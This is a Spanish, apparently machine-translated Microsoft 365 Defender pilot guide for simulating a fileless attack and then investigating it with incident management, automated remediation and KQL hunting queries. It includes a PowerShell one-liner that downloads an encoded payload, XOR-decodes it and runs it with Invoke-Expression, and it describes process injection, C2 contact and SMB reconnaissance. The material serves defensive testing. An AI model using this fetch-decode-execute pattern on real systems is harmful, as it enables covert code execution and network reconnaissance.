

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Ejecutar las simulaciones de ataque de Microsoft 365 defender  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**Se aplica a:**
- Microsoft 365 defender
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>Pensado </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>Párelo </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>Simular ataque </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>Cerrar y resumir </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

Actualmente está en la fase de simulación de ataques.

Después de preparar el entorno piloto, es el momento de probar la administración de incidentes de Microsoft 365 defender y la investigación automatizada y las capacidades de corrección. Le ayudaremos a simular un ataque complejo que aprovecha las técnicas avanzadas para ocultarse de la detección. El ataque enumera las sesiones del bloque de mensajes del servidor (SMB) abiertas en los controladores de dominio y recupera las direcciones IP recientes de los dispositivos de los usuarios. Esta categoría de ataques no suele incluir los archivos ubicados en el dispositivo de la víctima, sino que se producen únicamente en la memoria. "Viven en las tierras" mediante el uso de herramientas administrativas y del sistema existentes e insertan su código en procesos de sistema para ocultar su ejecución, dicho comportamiento les permite eludir la detección y persisten en el dispositivo.

En esta simulación, nuestro escenario de ejemplo comienza con un script de PowerShell. Se puede engañar a un usuario para que ejecute un script. O la secuencia de comandos puede ejecutarse desde una conexión remota a otro equipo desde un dispositivo previamente infectado: el atacante intenta moverse más adelante en la red. La detección de estos scripts puede ser difícil porque los administradores también suelen ejecutar scripts de forma remota para llevar a cabo varias actividades administrativas.


Durante la simulación, el ataque inyecta shellcode en un proceso aparentemente inocente. El escenario requiere el uso de notepad.exe. Elegimos este proceso para la simulación, pero los atacantes podrían dirigirse a un proceso del sistema de ejecución prolongada, como svchost.exe. A continuación, el shellcode se pone en contacto con el servidor de comandos y control (C2) del atacante para recibir instrucciones sobre cómo continuar. El script intenta ejecutar consultas de reconocimiento en el controlador de dominio (DC). El reconocimiento permite que un atacante obtenga información sobre la información reciente de inicio de sesión del usuario. Una vez que los atacantes tengan esta información, pueden avanzar más adelante en la red para llegar a una cuenta sensible específica

>[!IMPORTANT]
>Para obtener resultados óptimos, siga las instrucciones de simulación de ataque lo más parecida posible.


## <a name="simulation-environment-requirements"></a>Requisitos del entorno de simulación

Como ya ha configurado el entorno piloto durante la fase de preparación, asegúrese de que dispone de dos dispositivos para este escenario: un dispositivo de prueba y un controlador de dominio.

1.  Compruebe que el inquilino haya [habilitado Microsoft 365 defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).

2.  Compruebe la configuración del controlador de dominio de prueba:

    - El dispositivo se ejecuta con Windows Server 2008 R2 o una versión posterior.
    - El controlador de dominio de prueba [de Microsoft defender para la identidad](https://docs.microsoft.com/azure/security-center/security-center-wdatp) y habilitar la [administración remota](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).    
    - Compruebe que se hayan habilitado [Microsoft defender para la integración de Microsoft Cloud App Security](https://docs.microsoft.com/cloud-app-security/aatp-integration) .
    - Se crea un usuario de prueba en el dominio; no se necesitan permisos de administrador.

3.  Compruebe la configuración del dispositivo de prueba:
 
    1.  El dispositivo se ejecuta con Windows 10 versión 1903 o una versión posterior.
    
    1.  El dispositivo de prueba se une al dominio de prueba.
    
    1.  [Activa el antivirus de Windows Defender](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Si tienes problemas para habilitar antivirus de Windows Defender, consulta este [tema de solución de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    
    1.  Compruebe que el dispositivo de prueba se [incorpora a Microsoft defender para el punto de conexión](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Si usa un inquilino existente e implementa grupos de dispositivos, cree un grupo de dispositivos dedicado para el dispositivo de prueba y arrástrelo al nivel superior de la experiencia de usuario de configuración.


## <a name="run-the-simulation"></a>Ejecutar la simulación

Para ejecutar la simulación de escenario de ataque:

1.  Inicie sesión en el dispositivo de prueba con la cuenta de usuario de prueba.

2.  Abra una ventana de Windows PowerShell en el dispositivo de prueba.

3.  Copie el siguiente script de simulación:

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > Si abre este documento en un explorador Web, es posible que surjan problemas para copiar el texto completo sin perder determinados caracteres o introducir saltos de línea adicionales. Descargue este documento y ábralo en Adobe Reader.

4. En el símbolo del sistema, pegue y ejecute el script copiado.

>[!NOTE]
>Si está ejecutando PowerShell con el protocolo de escritorio remoto (RDP), use el comando tipo de texto del portapapeles en el cliente RDP porque es posible que la tecla de método rápido **Ctrl-V** o el método de pegar clic con el botón secundario no funcionen.  Las versiones recientes de PowerShell también no aceptarán ese método, es posible que deba copiar en la memoria el Bloc de notas en primer lugar, copiarlo en la máquina virtual y, a continuación, pegarlo en PowerShell.

Unos segundos más tarde, se abrirá <i>notepad.exe</i> . Un código de ataque simulado se insertará en notepad.exe. Mantenga abierta la instancia de Bloc de notas generada automáticamente para experimentar todo el escenario.

El código de ataque simulado intentará comunicarse con una dirección IP externa (simulando el servidor C2) y, a continuación, intentará el reconocimiento con el controlador de dominio a través de SMB.

Verá un mensaje mostrado en la consola de PowerShell cuando se complete este script.

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

Para ver la característica de respuesta y incidente automatizada en acción, mantenga abierto el proceso de notepad.exe. Verá que el incidente y la respuesta automatizadas detienen el proceso de Bloc de notas.


## <a name="investigate-an-incident"></a>Investigar un incidente

>[!NOTE]
>Antes de guiarle a través de esta simulación, vea el siguiente vídeo para ver cómo la administración de incidentes le ayuda a relacionar las alertas relacionadas como parte del proceso de investigación, dónde puede encontrarla en el portal y cómo puede ayudarle en las operaciones de seguridad:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Al cambiar al punto de vista del analista de SOC, ahora puede empezar a investigar el ataque en el portal del centro de seguridad de Microsoft 365. 

1.  Abra la cola de incidentes del [Portal del centro de seguridad 365 de Microsoft](https://security.microsoft.com/incidents) desde cualquier dispositivo.

2.  Vaya a **incidentes** en el menú. 

    

3.  El nuevo incidente para el ataque simulado aparecerá en la cola de incidentes.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Investigar el ataque como un incidente único

Microsoft 365 defender correlaciona los análisis y agrega todas las alertas y investigaciones relacionadas de distintos productos en una entidad incidente. Al hacerlo, Microsoft 365 defender muestra una historia de ataque más amplia, lo que permite que el analista de SOC comprenda y responda a amenazas complejas.

Las alertas generadas durante esta simulación están asociadas con la misma amenaza y, como resultado, se agregan automáticamente como un único incidente.

Para ver el incidente:

1.  Navegue a la cola **incidentes** .
 
    

2.  Seleccione el elemento más reciente haciendo clic en el círculo situado a la izquierda del nombre del incidente. Un panel lateral muestra información adicional sobre el incidente, incluidas todas las alertas relacionadas. Cada incidente tiene un nombre único que lo describe en función de los atributos de las alertas que incluye.

    

    Las alertas que se muestran en el panel se pueden filtrar en función de los recursos de servicio: Microsoft defender para identidad, seguridad de la aplicación en la nube de Microsoft, Microsoft defender para el punto de conexión, Microsoft 365 defender y Microsoft defender para Office 365.  

3.  Seleccione **abrir página incidente** para obtener más información sobre el incidente.

    En la página **incidente** , puede ver todas las alertas y la información relacionada con el incidente. La información incluye las entidades y activos implicados en la alerta, el origen de detección de las alertas (Microsoft defender para identidad, EDR) y el motivo por el que se vincularon entre sí. Revisar la lista de alertas de incidentes muestra la progresión del ataque. Desde esta vista, puede ver e investigar las alertas individuales.

    También puede hacer clic en **administrar incidente** en el menú de la derecha, para etiquetar el incidente, asignarlo a sí mismo y agregar comentarios.

    

    


### <a name="review-generated-alerts"></a>Revisar las alertas generadas 

Echemos un vistazo a algunas de las alertas generadas durante el ataque simulado.

>[!NOTE]
>Solo veremos algunas de las alertas generadas durante el ataque simulado. En función de la versión de Windows y de los productos de Microsoft 365 defender que se ejecutan en el dispositivo de prueba, es posible que vea más alertas que aparecen en un orden ligeramente diferente.

 


**Alerta: se observó la inyección de procesos sospechoso (origen: Microsoft defender para el extremo EDR)**

Los atacantes avanzados usan métodos sofisticados e furtivos para persistir en la memoria y esconderse de las herramientas de detección. Una técnica común es operar desde un proceso de sistema de confianza, en lugar de un archivo ejecutable malintencionado, lo que dificulta la detección de herramientas y operaciones de seguridad para detectar el código malintencionado.

Para permitir que los analistas de SOC detecten estos ataques avanzados, los sensores de memoria profunda de Microsoft defender for Endpoint proporcionan nuestro servicio en la nube con una visibilidad sin precedentes en una variedad de técnicas de inyección de código entre procesos. La siguiente figura muestra cómo se ha detectado el defensor para el punto de conexión y se le ha notificado que ha intentado inyectar código para <i>notepad.exe</i>.

 


**Alerta: comportamiento inesperado observado por un proceso ejecutar sin argumentos de línea de comandos (origen: Microsoft defender para el extremo EDR)**

Microsoft defender for Endpoint DETECTIONS a menudo se centra en el atributo más común de una técnica de ataque. Este método garantiza la durabilidad y eleva la barra para que los atacantes puedan cambiar a tácticas más recientes.

Empleamos algoritmos de aprendizaje a gran escala para establecer el comportamiento normal de los procesos comunes dentro de una organización y en todo el mundo, y ven Cuándo estos procesos muestran comportamientos anómalos. Estos comportamientos anómalos suelen indicar que se ha incorporado código extraño y que se están ejecutando en un proceso de confianza de otro tipo.

Para este escenario, el <i>notepad.exe</i> de proceso presenta un comportamiento anómalo, que implica la comunicación con una ubicación externa. Este resultado es independiente del método específico que se usa para introducir y ejecutar el código malintencionado.

>[!NOTE]
>Debido a que esta alerta se basa en los modelos de aprendizaje de máquina que requieren un procesamiento adicional de back-end, puede tardar algún tiempo antes de ver esta alerta en el portal.

Observe que los detalles de la alerta incluyen la dirección IP externa, un indicador que puede usar como pivote para ampliar la investigación.

Seleccione la dirección IP en el árbol de procesos de alerta para ver la página Detalles de la dirección IP.

 

La siguiente figura muestra la página de detalles de la dirección IP seleccionada (haciendo clic en dirección IP en el árbol de proceso de alerta).


**Alerta: el usuario y el reconocimiento de direcciones IP (SMB) (origen: Microsoft defender para la identidad)**

La enumeración con el protocolo de bloque de mensajes del servidor (SMB) permite a los atacantes obtener información reciente de inicio de sesión de usuario que les ayude a moverse más adelante a través de la red para obtener acceso a una cuenta sensible específica.

En esta detección, se desencadena una alerta cuando se ejecuta la enumeración de sesión SMB en un controlador de dominio.

 


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Revisión de la escala de tiempo del dispositivo [Microsoft defender for Endpoint]
Después de explorar las diversas alertas de este incidente, vuelva a la página incidente que investigó anteriormente. Seleccione la pestaña **dispositivos** en la página incidente para revisar los dispositivos que participan en este incidente tal y como lo ha notificado Microsoft defender para el punto de conexión y Microsoft defender para identidad.

Seleccione el nombre del dispositivo en el que se realizó el ataque para abrir la página de la entidad de ese dispositivo específico. En esa página, puede ver las alertas que se han desencadenado y los eventos relacionados.

Seleccione la pestaña **escala** de tiempo para abrir la escala de tiempo del dispositivo y ver todos los eventos y comportamientos que se observan en el dispositivo en orden cronológico, entremezclado con las alertas que se han generado.

 

La expansión de algunos de los comportamientos más interesantes proporciona detalles útiles, como árboles de procesos.

Por ejemplo, desplácese hacia abajo hasta encontrar la **inyección de proceso sospechoso** del evento de alerta observada. Seleccione el **powershell.exe insertado en notepad.exe evento Process** debajo de él, para mostrar el árbol de proceso completo de este comportamiento en el gráfico **entidades del evento** del panel lateral. Use la barra de búsqueda para filtrar si es necesario.



### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Revisión de la información del usuario [Microsoft Cloud App Security]

En la página incidente, seleccione la pestaña **usuarios** para mostrar la lista de usuarios implicados en el ataque. La tabla contiene información adicional acerca de cada usuario, incluida la puntuación de la prioridad de la **investigación** de cada usuario.

Seleccione el nombre de usuario para abrir la página de perfil del usuario en la que se pueden llevar a cabo más investigaciones. [Obtenga más información acerca de la investigación de usuarios arriesgados](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>Investigación y corrección automatizadas
>[!NOTE]
>Antes de guiarle a través de esta simulación, vea el siguiente vídeo para familiarizarse con el funcionamiento de la Autorrecuperación automatizada, dónde encontrarlo en el portal y cómo puede ayudarle en sus operaciones de seguridad:

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Navegue hasta el incidente en el portal del centro de seguridad 365 de Microsoft. La pestaña **investigaciones** de la página **incidente** muestra las investigaciones automatizadas que Microsoft defender desencadenó para identidad y Microsoft defender para el punto de conexión. La captura de pantalla siguiente muestra solo la investigación automatizada desencadenada por defender para el punto de conexión. De forma predeterminada, defender para el extremo corrige automáticamente los artefactos que se encuentran en la cola, lo que requiere corrección.


Seleccione la alerta que desencadenó una investigación para abrir la página Detalles de la **investigación** . Verá los siguientes detalles:
- Alertas que han activado la investigación automatizada.
- Usuarios y dispositivos afectados. Si se encuentran indicadores en dispositivos adicionales, estos dispositivos adicionales también se enumerarán.
- Lista de evidencias. Las entidades que se han encontrado y analizado, como archivos, procesos, servicios, controladores y direcciones de red. Estas entidades se analizan en busca de posibles relaciones con la alerta y se califican como benignas o malintencionadas.
- Se han encontrado amenazas. Amenazas conocidas que se encuentran durante la investigación.

>[!NOTE]
>Según el momento, es posible que la investigación automática todavía se esté ejecutando. Espere unos minutos hasta que se complete el proceso antes de recopilar y analizar la evidencia y revise los resultados. Actualice la página Detalles de la **investigación** para obtener las últimas conclusiones.


Durante la investigación automatizada, Microsoft defender for Endpoint identificó el proceso de notepad.exe, que se inyectaba como uno de los artefactos que requieren corrección. Defender para el punto de conexión detiene automáticamente la inyección del proceso sospechoso como parte de la corrección automatizada. 

Puede ver <i>notepad.exe</i> desaparecer de la lista de procesos en ejecución en el dispositivo de prueba.

## <a name="resolve-the-incident"></a>Resolver el incidente

Una vez completada la investigación y confirmada que se va a corregir, cierre el incidente.

Seleccione **administrar incidente**. Establezca el estado para **resolver el incidente** y seleccione la clasificación correspondiente.

Cuando se resuelve el incidente, cierra todas las alertas asociadas en el centro de seguridad de Microsoft 365 y en los portales relacionados.

 

<br>
Esto engloba la simulación de ataques para los escenarios de administración de incidentes e investigación automatizada y corrección. La siguiente simulación le guiará a través de la búsqueda proactiva de amenazas para archivos potencialmente malintencionados. 

## <a name="advanced-hunting-scenario"></a>Escenario de caza avanzado

>[!NOTE]
>Antes de guiarle a través de la simulación, vea el siguiente vídeo para comprender los conceptos de la caza avanzada, consulte dónde puede encontrarlo en el portal y sepa cómo puede ayudarle en sus operaciones de seguridad:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Requisitos del entorno de búsqueda
Hay un solo buzón interno y un dispositivo necesarios para este escenario. También necesitará una cuenta de correo electrónico externa para enviar el mensaje de prueba.

1.  Compruebe que el inquilino haya [habilitado Microsoft 365 defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Identifique el buzón de correo de destino que se usará para recibir correo electrónico.
    a.  Este buzón debe ser supervisado por Microsoft defender para Office 365 b.  El dispositivo del requerimiento 3 necesita tener acceso a este buzón
3.  Configurar un dispositivo de prueba: a.  Asegúrese de que usa la versión 1903 o posterior de Windows 10.
    b.  Una el dispositivo de prueba al dominio de prueba.
    c.  [Activa el antivirus de Windows Defender](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Si tienes problemas para habilitar antivirus de Windows Defender, consulta [este tema de solución de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d.  [Incorporado a Microsoft defender para el punto de conexión](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Ejecutar la simulación
1.  Desde una cuenta de correo electrónico externa, envíe un correo electrónico al buzón identificado en el paso 2 de la sección requisitos del entorno de prueba. Incluya datos adjuntos que se permitirán a través de cualquier directiva de filtro de correo electrónico existente.  Este archivo no tiene que ser malintencionado ni un ejecutable. Los tipos de archivo sugeridos son <i>. pdf</i>, <i>. exe</i> (si se permite) o documento de Office como un archivo de Word.
2.  Abra el correo electrónico enviado desde el dispositivo configurado tal y como se define en el paso 3 de la sección requisitos del entorno de prueba. Abra los datos adjuntos o guarde el archivo en el dispositivo.


**Ir a la caza**
1.  Abra el portal de security.microsoft.com.

2.  Navegue a la **caza > la caza avanzada**.

     

3.  Cree una consulta que se inicie al recopilar eventos de correo electrónico.

    1.  En el panel consulta, seleccione nuevo.
    
    1.  Haga doble clic en la tabla EmailEvents del esquema.

        ```
        EmailEvents 
        ```                                        

    1.  Cambie el período de tiempo a las últimas 24 horas. Suponiendo que el correo electrónico que envió cuando ejecutó la simulación anterior se encontraba en las últimas 24 horas, en caso contrario, cambie el intervalo de tiempo.
    
         

    1.  Ejecutar la consulta.  Puede tener muchos resultados en función del entorno de la prueba piloto.  

        > [!NOTE]
        > Consulte el paso siguiente para ver las opciones de filtrado para limitar la devolución de datos.

         

        > [!NOTE]
        > La búsqueda avanzada muestra los resultados de la consulta como datos tabulares. También puede optar por ver los datos en otros tipos de formato, como gráficos.    

    1.  Mire los resultados y vea si puede identificar el correo electrónico que ha abierto.  El mensaje puede tardar hasta dos horas en aparecer en la caza avanzada. Si el entorno de correo electrónico es grande y hay muchos resultados, es posible que desee usar la **opción Mostrar filtros** para buscar el mensaje. 

   En el ejemplo, el correo electrónico se envió desde una cuenta de Yahoo. Haga clic en el **+** icono situado junto a **Yahoo.com** en la sección SenderFromDomain y, a continuación, haga clic en **aplicar** para agregar el dominio seleccionado a la consulta.  Use el dominio o la cuenta de correo electrónico que se usó para enviar el mensaje de prueba en el paso 1 de ejecutar la simulación para filtrar los resultados.  Vuelva a ejecutar la consulta para obtener un conjunto de resultados más pequeños para comprobar que se ve el mensaje de la simulación.
   
         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  Haga clic en las filas resultantes de la consulta para que pueda inspeccionar el registro.
   
         

4.  Ahora que ya ha comprobado que puede ver el correo electrónico, agregue un filtro para los datos adjuntos. Céntrese en todos los correos electrónicos con datos adjuntos en el entorno. Para este escenario, céntrese en los correos electrónicos entrantes, no en los que se envían desde el entorno. Quite los filtros que haya agregado para buscar el mensaje y agregar "| donde **AttachmentCount > 0** y **EmailDirection**  ==  **"entrante" "**

    La siguiente consulta le mostrará el resultado con una lista más corta que la consulta inicial para todos los eventos de correo electrónico:

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  A continuación, incluya la información sobre los datos adjuntos (por ejemplo, el nombre de archivo, los hash) en el conjunto de resultados. Para ello, únase a la tabla **EmailAttachmentInfo** . Los campos comunes que se usan para la combinación, en este caso son **NetworkMessageId** y **RecipientObjectId**.

La siguiente consulta también incluye una línea adicional "| **Project-Rename EmailTimestamp = timestamp** "que le ayudarán a identificar qué marca de tiempo está relacionada con el correo electrónico frente a las marcas de tiempo relacionadas con acciones de archivo que agregará en el paso siguiente.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  A continuación, use el valor **SHA256** de la tabla **EmailAttachmentInfo** para buscar **DeviceFileEvents** (acciones de archivo que se han producido en el extremo) para ese hash.  El campo común aquí será el hash SHA256 para los datos adjuntos.

    La tabla resultante ahora incluye detalles del extremo (Microsoft defender para EndPoint), como el nombre del dispositivo, la acción que se ha realizado (en este caso, filtrada para incluir solo eventos FileCreated) y dónde se ha guardado el archivo. También se incluirá el nombre de cuenta asociado con el proceso.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

Ya ha creado una consulta que identificará todos los correos electrónicos entrantes en los que el usuario abrió o guardó los datos adjuntos. También puede afinar esta consulta para filtrar los dominios de remitentes específicos, los tamaños de archivo, los tipos de archivo, etc.

7.  Las funciones son un tipo especial de combinación que permite extraer más datos de TI de un archivo, como la prevalencia, el firmante y la información del emisor, etc.  Para obtener más detalles sobre el archivo, use la función **FileProfile ()** enriquecimiento:

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


**Crear una detección**

Una vez que haya creado una consulta que identifique la información a la que le gustaría recibir una **alerta** si se produce en el futuro, puede crear una detección personalizada desde la consulta. 

Las detecciones personalizadas ejecutarán la consulta según la frecuencia que haya establecido y los resultados de las consultas crearán alertas de seguridad, en función de los activos afectados que elija. Esas alertas se correlacionarán con incidentes y se pueden clasificar como cualquier otra alerta de seguridad generada por uno de los productos.

1.  En la página consulta, elimine las líneas 7 y 8 que se agregaron en el paso 7 de las instrucciones Go de búsqueda y haga clic en **crear regla de detección**. 
    
     

    > [!NOTE]
    > Si hace clic en **crear regla de detección** y tiene errores de sintaxis en la consulta, la regla de detección no se guardará. Compruebe la consulta para asegurarse de que no haya errores. 


2.  Rellene los campos obligatorios con la información que permitirá que el equipo de seguridad comprenda la alerta, por qué se generó y qué acciones espera que realicen. 

    

    Asegúrese de rellenar los campos con claridad para ayudar al siguiente usuario una decisión informada sobre esta alerta de regla de detección. 

3.  Seleccione qué entidades se ven afectadas en esta alerta. En este caso, seleccione **dispositivo** y **buzón**.

    
 

4.  Determine qué acciones se deben realizar si se activa la alerta. En este caso, ejecute un análisis de antivirus, aunque se pueden realizar otras acciones. 

     

5.  Seleccione el ámbito de la regla de alertas. Como esta consulta implica dispositivos, los grupos de dispositivos son relevantes en esta detección personalizada de acuerdo con Microsoft defender para el contexto de extremo. Al crear una detección personalizada que no incluye los dispositivos como entidades afectadas, no se aplica el ámbito.  

     

    Para esta prueba piloto, es posible que quiera limitar esta regla a un subconjunto de dispositivos de prueba en su entorno de producción.

6.  Seleccione **Crear**. A continuación, seleccione **reglas de detección personalizadas** en el panel de navegación.
 
     

     

En esta página, puede seleccionar la regla de detección, que abrirá una página de detalles. 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Ejercicios adicionales tutoriales de búsqueda avanzada

Para obtener más información acerca de la búsqueda avanzada, las siguientes difusiones Web le guiarán a través de las capacidades de la búsqueda avanzada en Microsoft 365 defender para crear consultas entre el pilar, dinamizar en entidades y crear detecciones personalizadas y acciones de corrección.

>[!NOTE]
>Prepárese con su propia cuenta de GitHub para ejecutar las consultas de la caza en el entorno del laboratorio de pruebas piloto.  

|  El título  |  Description  |  Descargar MP4  |  Ver en YouTube  |  CSL archivo que usar  |
|:-----|:-----|:-----|:-----|:-----|
| Episodio 1: conceptos básicos de KQL | Trataremos los conceptos básicos de las funcionalidades de búsqueda avanzada en Microsoft 365 defender. Obtenga información sobre los datos de búsqueda avanzada disponibles y la sintaxis y los operadores de KQL básicos. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Episodio 1: archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| Episodio 2: combinaciones | Seguiremos aprendiendo sobre los datos de la búsqueda avanzada y cómo combinar tablas. Obtenga información sobre las combinaciones internas, externas, únicas y semicombinadas, así como los matices del Kusto de innerunique predeterminado. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Episodio 2: archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Episodio 3: resumir, dinamizar y visualizar datos|Ahora que podemos filtrar, manipular y unir datos, es el momento de empezar a resumir, cuantificar, dinamizar y visualizar. En este episodio, trataremos el operador de Resumen y algunos de los cálculos que puede realizar al profundizar en tablas adicionales en el esquema de búsqueda avanzada. Los conjuntos de información se convierten en gráficos que pueden ayudar a mejorar el análisis. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Episodio 3: archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Episodio 4: ¡ vamos a buscar! Aplicación de KQL al seguimiento de incidentes|Tiempo para realizar un seguimiento de la actividad del atacante En este episodio, usaremos nuestra mejor comprensión de KQL y la búsqueda avanzada en Microsoft 365 defender para realizar un seguimiento de un ataque. Obtenga información sobre algunas de las sugerencias y trucos que se usan en el campo para realizar un seguimiento de la actividad de los intrusos, incluidos los ABC de Cybersecurity y cómo aplicarlos a la respuesta ante incidentes. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Episodio 4: archivo CSL en Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Paso siguiente
| <br>[Fase de cierre y Resumen](mtp-pilot-close.md) | Analice el resultado del piloto de Microsoft 365 defender, preséntela a las partes interesadas y realice el siguiente paso.
|:-----|:-----|

